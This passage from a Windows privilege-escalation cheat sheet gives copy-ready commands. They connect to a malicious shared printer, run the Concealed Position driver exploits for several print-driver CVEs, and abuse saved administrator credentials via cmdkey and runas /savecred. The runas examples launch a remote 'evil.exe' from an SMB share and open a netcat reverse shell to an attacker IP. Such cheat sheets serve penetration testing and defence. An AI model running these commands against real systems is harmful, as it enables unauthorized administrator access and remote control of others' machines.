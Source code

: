 ```
PS C:\target> $serverName  = 'printer-installed-host'
PS C:\target> $printerName = 'EasySystemShell'
PS C:\target> $fullprinterName = '\\' + $serverName + '\' + $printerName + ' - ' + $(If ([System.Environment]::Is64BitOperatingSystem) {'x64'} Else {'x86'})
PS C:\target> Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue
PS C:\target> Add-Printer -ConnectionName $fullprinterName
```

### Bring Your Own Vulnerability

Concealed Position : https://github.com/jacob-baines/concealed_position

- ACIDDAMAGE - [CVE-2021-35449](https://nvd.nist.gov/vuln/detail/CVE-2021-35449) - Lexmark Universal Print Driver LPE
- RADIANTDAMAGE - [CVE-2021-38085](https://nvd.nist.gov/vuln/detail/CVE-2021-38085) - Canon TR150 Print Driver LPE
- POISONDAMAGE - [CVE-2019-19363](https://nvd.nist.gov/vuln/detail/CVE-2019-19363) - Ricoh PCL6 Print Driver LPE
- SLASHINGDAMAGE - [CVE-2020-1300](https://nvd.nist.gov/vuln/detail/CVE-2020-1300) - Windows Print Spooler LPE

```
cp_server.exe -e ACIDDAMAGE
# Get-Printer
# Set the "Advanced Sharing Settings" -> "Turn off password protected sharing"
cp_client.exe -r 10.0.0.9 -n ACIDDAMAGE -e ACIDDAMAGE
cp_client.exe -l -e ACIDDAMAGE
```

## EoP - Runas

Use the `cmdkey` to list the stored credentials on the machine.

```
cmdkey /list
Currently stored credentials:
 Target: Domain:interactive=WORKGROUP\Administrator
 Type: Domain Password
 User: WORKGROUP\Administrator
```

Then you can use `runas` with the `/savecred` options in order to use the saved credentials. The following example is calling a remote binary via an SMB share.

```
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
runas /savecred /user:Administrator "cmd.exe /k whoami"
```

Using `runas` with a provided set of credential.

```
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```
